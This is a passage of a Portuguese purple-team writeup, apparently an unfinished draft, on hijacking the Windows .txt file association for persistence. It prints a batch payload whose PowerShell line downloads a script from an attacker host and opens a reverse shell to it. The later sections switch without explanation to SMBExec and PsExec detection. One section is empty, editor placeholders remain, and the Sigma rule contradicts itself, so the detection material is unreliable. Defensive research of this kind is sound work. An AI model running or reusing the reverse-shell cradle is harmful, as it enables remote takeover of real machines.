 
<p align="center">
  <img src="./imagens/ISHLOGO.png" alt="Logo do Purple Team" width="300" height="300">
</p>

# CTI Purple Team - Execução Acionada por Evento: Alterar Associação de Arquivo Padrão 

Quando um arquivo é criado em um sistema operacional como o Windows, ele é automaticamente associado a um programa específico que será usado para abrir esse tipo de arquivo quando clicado duas vezes.

A execução acionada por evento permite que os usuários personalizem a maneira como os arquivos são abertos, definindo regras específicas para acionar a execução de aplicativos diferentes com base em diferentes eventos.

As seleções de associação de arquivos são armazenados no Registro do Windows e podem ser editados por usuários, administradores ou programas que tenham acesso ao Registro ou por administradores usando o utilitário associado.

Neste contexto, exploraremos os conceitos por trás da execução acionada por evento representando o sequestro da extenção ***.txt***, sendo possível executar um aplicativo malicioso antes que o arquivo real seja aberto, gerando um reverse shell na máquina do atacante.

## Contexto

Quando um arquivo ***.txt*** é clicado duas vezes, ele é aberto com um ***notepad.exe***. O windows por padrão sabe que para abrir esse tipo de extensão precisa usar o *notepad.exe*.

As associaçõs de arquivos do sistemas estão listadas em **HKEY_CLASSES_ROOT.[extention]**, no caso dessa pesquisa será listado em **HKEY_CLASSES_ROOT.txt**.

No entanto, é possível sequestrar chaves de registro que controlam o programa padrão para extensões específicas a fim de obter persistência.


## Análise e Execução do código malicioso

Há dois locais de registro que definem os manipuladores de extensão, que são mostrados a seguir, e são classificados como: *Global* e *Local*.

<p align="center">
  <img src="imagens/locais-de-registro.png">
</p>

Quando um usuário tenta abrir um arquivo, o sistema operacional verifica os registros locais em (HKEY_CURRENT_USERS) para determinar qual programa está designado para lidar com aquela extensão de arquivo. Caso nao houver nenhuma entrada de registro associada, a verificação é feita na árvore de registro global (HKEY_CLASSES_ROOT).

Dependendo dos privilégios do usuário (Administrador ou Usuário Padrão), esses locais de registro podem ser explorados para executar código malicioso, utilizando o manipulador de extensão como um gatilho.

A priori, para executar o sequestro de extensão é necessário que o atacante já possua o primeiro acesso inicial à máquina alvo.

Portanto, podemos observar que o manipulador de extensão ***.txt*** está definido na chave de registro abaixo:

Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command ---- [***colocar botao de copiar***]

Abaixo exemplifico que o comando responsável por abrir arquivos *.txt* é o *notepad.exe %1*, onde o argumento *%1*, especifica um nome de arquivo qualquer, ou seja, é uma variante para o nome dos arquivos que o bloco de notas deve abrir:

<p align="center">
  <img src="imagens/Editor-de-registro-HKEY.png">
</p>

Supomos que o usuário alvo possua uma arquivo chamado ***test.txt*** em sua área de trabalho, contendo o conteúdo do arquivo ilustrado abaixo:

<p align="center">
  <img src="imagens/arquivo-vitima.png">
</p>

Iremos criar agora um arquivo malicioso que será executado quando o usuário alvo tentar abrir um arquivo chamado test.txt, sendo que com a execução desta têcnica pode ser qualquer arquivo aleatório, apenas seguindo o critério de extenção .txt usado como exemplo nesta pesquisa.

Para isso, criaremos um arquivo em lotes simples do Windows chamado ***shell.cmd*** na maquina do usuário alvo:

start notepad.exe %1
powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.140.128/purplecat.ps1');purplecat -c 192.168.140.128 -p 8081 -e cmd.exe"  ------- ***COLOCAR BOTAO DE COLAR***

A partir disso, podemos sequestrar a extensão do arquivo .txt, modificando os dados do valor de registro de: Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command para C:\Users\Win-test\Desktop\shell.cmd, local onde nosso arquivo malicioso está gravado.

<p align="center">
  <img src="imagens/mod.registro.png">
</p>

Após a modificação a chave de registro se encontrará da mesma maneira que a imagem abaixo:

<p align="center">
  <img src="imagens/modificado.png">
</p>

Na seção a seguir, vamos analisar como podemos executar detectar a execução desta ferramenta desenvolvida em *PowerShell*, e validar a reutilização de uma detecção já criada por meio da pesquisa do Purple Team, referente ao **PsExec**.

## Análise de Comportamento




Este, e as demais constantes observadas no código podem ser identificadas por meio do ***Event ID 4104***.

### Reutiização da Regra de Detecção do PsExec e de Criação de Serviços Maliciosos.

Como foi possível observar, se você leu ou assistiu ao [Webinar](https://ishtecnologia.sharepoint.com/:v:/s/CTI-PurpleTeam/EXxP0PKWVJlAuad4KmBTUoAB9P-aQ0ebrhlVtrFO5_ejWg?e=Pu4GpV) da pesquisa de Movimentação Lateral Através do PSExec, você já perecebeu que o fluxo de execução do *SMBExec* é semelhante ao fluxo de execução do PsExec.

Parte deste fluxo é o *logon com o tipo 3* ([**Event ID 4624**](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624)) e o acesso a escrita do compartilhamento oculto administrativo **IPC$**. Isso pode ser visto na imagem abaixo.

<p align="center">
  <img src="imagens/14.ipc_write_data.png">
</p>

Ou seja, de fato, é semelhante o suficiente para que a nossa regra de detecção [BASELINE - Lateral Movement - Possible Lateral Movement Through PSExec](https://github.com/ish-cti-purple/CTI-PurpleTeam/blob/main/Regras/Sigma/Lateral_Movement/BASELINE%20-%20Lateral%20Movement%20-%20Possible%20Lateral%20Movement%20Through%20PSExec.yml), possa ser utilizada para detectar o comportamento produzido no dispositivo vítima, ao sofrer a exploração da ferramenta ***SMBExec***.

Também é possível observar outro comportamento, no qual além de dar *match* com a sequência de comportamentos produzidos pelo *PsExec*, também pode ser detectado por outra regra de detecção desenvolvida por meio de uma das pesquisas do *Purple Team*. Esta regra foi um output da pesquisa de [***Criação de Serviços Maliciosos no Windows***](https://github.com/ish-cti-purple/CTI-PurpleTeam/blob/main/Pesquisas/ATT%26CK%20TTPs/%5BTA0003%5D%20Persistence/%5BT1543%5D%20Create%20or%20Modify%20System%20Process/%5BT1543.003%5D%20Create%20or%20Modify%20System%20Process%3A%20Windows%20Service/CTI%20Purple%20Team%20-%20Cria%C3%A7%C3%A3o%20de%20Servi%C3%A7os%20Maliciosos%20no%20Windows/%5BCTI%20Purple%20Team%5D%20Cria%C3%A7%C3%A3o%20de%20Servi%C3%A7os%20Maliciosos%20no%20Windows.md).

Esta pesquisa nos permite compreender como podemos detectar a criação de serviços maliciosos por meio dos Event IDs [**7045**](https://www.manageengine.com/products/active-directory-audit/kb/system-events/event-id-7045.html) e [**4697**](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4697).

<p align="center">
  <img src="imagens/15.malicious_service_creation.png">
</p>

Foi implementado sa regra Sigma de todas as pesquisas citadas, e o resultado foi o match de cada aspecto da execução do ***SMBExec***.

<p align="center">
  <img src="imagens/14.ipc_write_data.png">
</p>

## Engenharia de Detecção

Para detectarmos a execução da ferramenta em PowerShell do SMBExec, nós confeccionamos a regra de detecção abaixo documentada no modelo Sigma.

```yaml
title: 000:1311431:000:TA0008.T1021.002:Possible Lateral Movement Through SMBExec
id: 77fba173-754b-4fdf-9271-3528648139fe
status: stable
description: 'Esta regra detecta o comportamento produzido pela execução do PSExec, para a realização de Movimentação Lateral.'
references:
    - 'https://attack.mitre.org/techniques/T1543/003'
    - 'https://attack.mitre.org/techniques/T1570/'
    - 'https://attack.mitre.org/techniques/T1021/002/'
    - 'https://attack.mitre.org/techniques/T1569/002/'
    - 'https://attack.mitre.org/techniques/T1550/002/'
author: CTI Purple Team
date: 2024/01/05
tags:
    - 'attack.persistence.T1543.003'
    - 'attack.lateral.movement.T1570'
    - 'attack.lateral.movement.T1021.002'
    - 'attack.execution.T1569.002'
    - 'attack.lateral.movement.T1550.002'
logsource:
    category: 'powershell_scriptblock_logging'
    product: 'windows'
detection:
    Message|contains:
        - '0xff,0x53,0x4d,0x42'
        - '0xfe,0x53,0x4d,0x42'
        - '0x5c,0x73,0x76,0x63,0x63,0x74,0x6c,0x00'
        - 'IPC$'
        - 'ADMIN$'
        - 'C$'
    condition: Message
fields:
    - PowerShell Script Block;
    - Computer Name.
falsepositives:
    - 'É necessário identificar realizar triagem de possíveis scripts que possam utilizar-se das mesmas capacidades, e que foram desenvolvidas pelos administradores de sistemas'
level: high
```

# Conclusão

Esperamos que você que leu ou assistiu o Webinar, possa ter compreendido a inteligência que trouxemos nesta pesquisa. Qualquer dúvida, é só nos contactar.

## Link do Webinar

Caso você não pode participar do Webinar de apresentação da pesquisa, ou gostaria rever, basta clicar neste [link](https://ishtecnologia.sharepoint.com/sites/CTI-PurpleTeam/_layouts/15/stream.aspx?id=%2Fsites%2FCTI%2DPurpleTeam%2FDocumentos%20Compartilhados%2FVideos%2FCTI%20Purple%20Team%20%2D%20Movimenta%C3%A7%C3%A3o%20Lateral%20Atrav%C3%A9s%20do%20Invoke%2DSMBExec%2Emp4&referrer=StreamWebApp%2EWeb&referrerScenario=AddressBarCopied%2Eview).
